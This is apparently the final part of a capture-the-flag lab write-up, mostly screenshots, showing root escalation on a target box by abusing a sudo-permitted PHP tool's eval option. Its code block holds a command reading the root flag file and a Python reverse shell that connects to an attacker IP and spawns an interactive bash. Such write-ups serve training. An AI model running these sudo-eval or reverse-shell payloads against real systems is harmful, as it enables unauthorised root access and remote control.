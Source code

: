 ![](Pasted%20image%2020250310111622.png)

So basically does this:

![](Pasted%20image%2020250310111754.png)

Inspecting the help of the program I noticed that you can actually execute php code with `eval`:

![](Pasted%20image%2020250310112102.png)

And also other useful options:

![](Pasted%20image%2020250310112128.png)

![](Pasted%20image%2020250310112145.png)

>[!Note]
>Also you can detect this with `sudo -l`:
>
>![](Pasted%20image%2020250310112338.png)

Now I'll try to craft a payload to read root flag:

```shell
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('cat /root/root.txt')"
# To get root shell:
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('python3 -c \"import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\\\"10.10.14.16\\\", 666)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); subprocess.call([\\\"/bin/bash\\\", \\\"-i\\\"]);\"')"
```

### Root flag

![](Pasted%20image%2020250310114428.png)

==Machine pwned!==


